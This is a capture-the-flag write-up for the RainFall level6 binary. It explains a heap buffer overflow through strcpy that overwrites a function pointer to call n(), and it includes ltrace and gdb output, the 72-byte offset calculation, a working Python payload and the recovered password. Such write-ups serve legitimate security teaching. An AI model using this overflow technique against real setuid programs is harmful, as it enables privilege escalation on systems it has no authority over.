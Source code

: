 level6 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level6/level6
```

level6 rights:
```Shell
-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
```

Here is what we get when testing:
```Shell
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 weouhalierhgaieurgh
Nope
```

Decompiling with Ghidra on https://dogbolt.org/ shows five things:
- the program takes a string as argument and has two malloc'ed variables
- `__dest` is a string of 64-bytes
- `ppcVar1` is a variable of 4-bytes that currently stores the address of the `m()` function (that does nothing)
- `strcpy()` uses the user input argument to store it into `__dest`, right before calling `ppcVar1`
- there is an unused `n()` that `cat` the next password

The goal is therefore to find a way to replace the content of `ppcVar1` with the `n()` function. To do so, we can do a buffer overflow and abuse `strcpy()`, because it doesn't check that the size of input matches the size of dest. We can pad it with the right amount of chars and simply add the address of `n()`. This will work because `ppcVar1` and `__dest` sit next to each other, as we are on the heap. Overflowing `__dest` will allow us to overwrite whatever is in `ppcVar1` with whatever we want.

To get the right size for the payload, we must calculate how many bytes separate `__dest` from the start of `ppcVar1`.
First, we found the addresses of each malloc using `ltrace`:
```Shell
level6@RainFall:~$ ltrace ./level6
[...]
malloc(64) = 0x0804a008
malloc(4) = 0x0804a050
[...]
```
We can now calculate the offset for our payload by doing the following subtraction: 0x0804a050 - 0x0804a008 = 72

Next, we can find the address of `n()`:
```Shell
(gdb) x n
0x8048454 <n>:  0x83e58955
```

So the result is:
```Shell
level6@RainFall:~$ ./level6 $(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```